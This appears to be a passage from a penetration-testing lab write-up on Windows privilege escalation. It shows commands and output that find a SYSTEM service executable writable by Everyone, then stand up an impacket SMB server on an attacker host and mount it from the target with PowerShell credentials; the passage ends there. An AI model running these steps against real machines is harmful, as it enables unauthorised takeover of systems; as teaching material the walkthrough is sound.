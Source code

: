 ```shell
C:\Users\user>sc qc SecurityService
[SC] QueryServiceConfig SUCCESS

SERVICE_NAME: SecurityService
        TYPE               : 10  WIN32_OWN_PROCESS
        START_TYPE         : 2   AUTO_START
        ERROR_CONTROL      : 1   NORMAL
        BINARY_PATH_NAME   : "C:\Program Files (x86)\PCProtect\SecurityService.exe"
        LOAD_ORDER_GROUP   :
        TAG                : 0
        DISPLAY_NAME       : PC Security Management Service
        DEPENDENCIES       :
        SERVICE_START_NAME : LocalSystem

C:\Users\user>icacls "C:\Program Files (x86)\PCProtect\SecurityService.exe"
C:\Program Files (x86)\PCProtect\SecurityService.exe BUILTIN\Users:(I)(F)
                                                     Everyone:(I)(F)
                                                     NT AUTHORITY\SYSTEM:(I)(F)
                                                     BUILTIN\Administrators:(I)(F)
                                                     APPLICATION PACKAGE AUTHORITY\ALL APPLICATION PACKAGES:(I)(RX)
                                                     APPLICATION PACKAGE AUTHORITY\ALL RESTRICTED APPLICATION PACKAGES:(I)(RX)

Successfully processed 1 files; Failed processing 0 files

```

Based on the output above, we have writable permissions to the executable of the service named `SecurityService`. We will set up an SMB server on the attacker host and authenticate to the SMB service.

```shell
❯ sudo impacket-smbserver share . -smb2support -username low -password 'p@ssw0rd'
Impacket v0.9.24 - Copyright 2021 SecureAuth Corporation
```

Now we're gonna authenticate to the SMB service:

```powershell
PS C:\Users\user> $pass = ConvertTo-SecureString 'p@ssw0rd' -AsPlainText -Force

PS C:\Users\user> $cred = New-Object System.Management.Automation.PSCredential('low', $pass)

PS C:\Users\user> New-PSDrive -Name "share" -PSProvider "FileSystem" -Root "\\192.168.119.130\share" -Credential $cred

Name           Used (GB)     Free (GB) Provider      Root                                                                                                                              CurrentLocation
----           ---------     --------- --------      ----                                                                                                                              ---------------
share                                  FileSystem    \\192.168.119.130\share

```
